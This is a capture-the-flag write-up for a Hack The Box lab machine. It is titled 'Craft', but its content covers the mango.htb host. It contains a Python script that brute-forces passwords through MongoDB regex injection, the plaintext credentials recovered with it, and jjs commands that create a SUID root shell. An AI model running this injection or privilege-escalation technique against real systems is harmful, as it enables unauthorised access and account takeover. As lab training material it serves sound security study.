










# Craft

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/214"></a>
  <br>
</h1>
<h4 align="center"> Author: <a href="https://www.hackthebox.eu/home/users/profile/13531" > MrR3boot  </a> </h4>

***

__Machine IP__: 10.10.10.162

__DATE__ : 10/11/2019

__START TIME__: 10:52 PM

***

## Nmap



There's an HTTP and HTTPS service running. Let's start enumeration those.

***

## HTTP/HTTPs

If we try to visit the website on port 80 then we get a `403`(forbidden) error.



If we open the port `443` we can see a website that looks like `google` search page.


Since this website was under SSL I decided to checkout the certificate.



We can see that there is a `domain` name `staging-order.mango.htb` so I edited my `/etc/hosts` with the following entries.

```
10.10.10.162 mango.htb
10.10.10.162 staging-order.mango.htb
```

And then opened that domain in the browser and got a login page.


Now at this point I was bit lost so I decided to read the forum comments. And in quite a few I found people pointing out `find technology having similar name as mango`. This could mean that they are talking about `mongo db`. I came across a CTF writeup [mongo-db-password-extraction](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/)
I decided to try this one because other mongodb exploit didn't worked.

So to find the password we need to send one character at a time and if we get a redirect(302) that means that character is part of the password. I used the script and modified it according to my need:

```python
import requests
import string

flag = ""
url = "http://staging-order.mango.htb/index.php"

restart = True

while restart:
    restart = False

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': "^"+payload + ".*", 'login': 'login'}
        # print(post_data)
        r = requests.post(url, data=post_data, allow_redirects=False)
        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload
            if i == "":
                print("\nUser: " + flag)
                exit(0)
            break
```
This gave me the password for admin account.



**Ignore those $ sign in the end**

`user admin, t9KcS3>!0B#2`

When I logged in I got a under construction page.


So I decided to crack the password for user `mango` using the same technique.



`mango:h3mXK8RhU~f{]f5H`

But again the password didn't gave anything other than the under construction page.

Since I have password for both the user I decided to use them for SSH login. The admin credential didn't work but the `mango` one worked.



I was `mango` I need to become user `admin` to get the user flag. So I did `su admin` and used the password we have for admin to become user `admin`.




***

## Privelege escalation

I ran my enumeration script and found out some SUIDs but one of them was an interesting one.



I am talking about the `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`. Why? because I saw a file named `.jjs.history` in `/home/admin`



Also I found it on [gtfobins/jjs](https://gtfobins.github.io/gtfobins/jjs/).
(you can use [gtfo](https://github.com/mzfr/gtfo) tool if you want to search gtfobins from terminal)

I tried to run

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs
```

this gave me the shell but I couldn't run any command or couldn't see anything being typed there. So I copied the `/bin/sh` to `/tmp/sh`, then made it `suid` and then did `/tmp/sh -p` to get a root shell.

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/cp /bin/sh /tmp/sh').waitFor()" | jjs

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/chmod 4755 /tmp/sh').waitFor()" | jjs
```

Then do `/tmp/sh -p` to get the root shell




**Make sure to remove the `/tmp/sh` file once you are done**


